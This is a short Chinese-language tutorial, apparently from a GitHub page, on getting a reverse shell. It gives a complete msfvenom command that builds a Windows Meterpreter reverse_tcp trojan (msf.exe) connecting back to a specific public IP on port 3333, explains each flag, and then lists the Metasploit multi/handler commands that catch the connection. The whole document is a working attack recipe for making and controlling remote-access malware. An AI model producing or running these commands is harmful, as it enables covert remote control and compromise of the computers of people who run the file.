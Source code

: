 反弹shell操作案例
生成木马
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=47.94.236.114 LPORT=3333 -f exe -o msf.exe
```
参数解释：
    msfvenom：Metasploit 中用于生成 payload 的命令行工具。

    -p windows/meterpreter/reverse_tcp：指定使用的 payload 类型。这表示生成一个 Windows 平台的反向 TCP Meterpreter shell。meterpreter/reverse_tcp 会使目标计算机连接回攻击者的主机，提供一个远程控制的命令行。

    LHOST=47.94.236.114：指定攻击者的主机 IP 地址，目标计算机会向这个 IP 地址发起连接。

    LPORT=3333：指定攻击者主机上的监听端口，目标计算机会连接到这个端口。

    -f exe：指定输出格式为 Windows 可执行文件（.exe）。

    -o msf.exe：指定输出文件的名称为 msf.exe。

msf监听反弹shell
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp   //这里的payload要和上面的一直0
set lport 3333
set lhost 0.0.0.0
run
```
set lport 3333：

    设置监听端口（LPORT）为 3333，这意味着 Meterpreter 会在目标机器上连接到你本地机器的 3333 端口。

set lhost 0.0.0.0：

    设置本地主机 IP（LHOST）为 0.0.0.0，这表示监听所有可用的网络接口。